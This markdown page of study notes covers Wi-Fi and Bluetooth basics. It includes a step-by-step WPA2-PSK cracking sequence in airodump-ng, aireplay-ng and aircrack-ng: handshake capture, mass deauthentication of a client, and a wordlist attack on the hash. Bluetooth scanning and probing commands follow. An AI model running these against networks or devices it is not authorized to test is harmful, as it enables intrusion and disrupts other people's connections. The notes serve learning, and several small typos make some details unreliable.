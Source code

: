 #### Basic Network Vocab
*AP* = Access Point
*ESSID* = (Extended Service Set Identifier)
*BSSID* = (Basic Service Set Identifier)
*SSID* = (Service Set Identifier)
*Channels* = Can operate from 1 to 14, and in the US from 1 to 11.
*Power* = How far you are from the signal
*Security* = WEP, WPA1, WPA2, WPA3
*Modes* = Managed, Master, Master
*Frequency* = 2.4GHHz or 5GHz

#### Basic Network Commands
`ifconfig` to see details of wireless interfaces
`iwconfig` to only see your wireless interfaces
`iwlist wlan0 scan` to see all the Wi-Fi APs in your area. (Will include key data about each AP)
`ncmli dev wifi` will do the same as above. (Key data)
`nmcli dev wifi connect AP-ESSID password APpassword` to connect to an AP

#### Airmon-ng
To put your wireless network card into monitor mode use the command:
`airmon-ng start | stop | restart interface`
example:
`airmon-ng start wlan0`
stop will stop monitor mode, and restart will restart your wireless interface if runs into any type of errors.

#### Airodump-ng
airodump-ng is used to capture and display key data of APs and clients connected to them.
Once Airodump-ng is started, it will pick up data such as:
- BSSID: MAC Address of the AP or Client
- PWR: The strengh of the signal
- ENC: The encryption used to secure the transmission
- Data: The data throughput rate
- CH: The channel the AP is operating on
- ESSID: The name of the AP

`airodump-ng wlan0mon` will start scanning.

`airodump-ng -c 10 --bssid 01:01:AA:BB:CC:22 -w Hacker-ArisePSK wlan0mon` This command will captures all packets traversing the AP on channel using the -c option

In another terminal you can use the aireplay-ng to knock off (deauthenticate anyone connected to the AP and force them to re authenticate to the AP). When they re authenticate, you can capture the hash of their password that is exchanged in the WPA2-PSK four-way handshake. The password hash will appear in the upper-right corner of the airodump-ng terminal.
`aireplay-ng --deauth 99999 -a 01:02:CC:DD:03:CF -c A0:A3:E2:44:7C:E5 wlan0mon`

Finally in the final terminal, you can use a password list (wordlist.dic) to find the password in the captured hash (Hacker-ArisePSK.cap), as shown here:
`aircrack-ng -w wordlist.dic -b 01:01:AA:BB:CC:22 Hacker-ArisePSK.cap`

#### How Bluetooth works:
Bluetooth is a universal protocol for low-power, near field communications operating at 2.4-2.485Ghz using spread spectrum, frequency hopping at 1,600 hops per second. (This frequency hopping is a security measure).

The bluetooth specification has a min range of *10m* but there is no limit to the upper range. Many devices have ranges as large as *100m*.
Connecting 2 bluetooth devices together is refered as *pairing*.

2 bluetooth devices can connect to each other if they are in discoverable mode. When they are in Discoverable mode, they will transmit:
- Name
- Class
- List of Services
- Technical Information
When 2 bluetooth devices pair with each other they exchange a secret or link key. Each stores this link key so it can identify the other in future pairing.
Every device has a unique 48-bit idenditifier (A MAC-like address) and usually a manufacturer-assigned name.

#### Bluetooth Scanning and Reconnaissance
We will be using a tool called BlueZ
To install it run: `apt-get install bluez` 
BlueZ has a number of simple tools we can use to manage and scan Bluetooth devices, including:
- `hciconfig`: equivalent of ifconfig for bluetooth
- `hcitool`: provides us with device name, device ID, device class and device clock info which enables the devices to work synchronously
- `hcidump`: Used to sniff bluetooth communications, meaning we can capture data sent over bluetooth.

We can check that our adapter is up by running: `hciconfig`
Next we need to check that the connection is enabled, we can do so with: `hciconfig hci0 up`

Then, we can start sniffing bluetooth connections with the command:
`hcitool scan` It should pick up bluetooth connections around you.

Next we can gather intel about the detected devices with the inquiry function inq:
`hcitool inq`
This will give us the MAC Address, the clock offset and the class. The class indicates what type of Bluetooth device you found. We can look up the code and see what type of Bluetooth device it is by going to the Bluetooth SIG site at: https://www.bluetooth.org/en-us/specification/assigned-numbers/service-discovery

#### Scanning for Services with sdptool (Service Discovery Protocol (It's a bluetooth protocol))

Using the command: `sdptool browse MACaddress` will start searching for services on devices we've previously scanned.

We can then try to reach those devices with a ping using:
`l2ping MACaddress -c NumberOfPackets`

for example: `l2ping 76:6E:46:63:72:66 -c 3`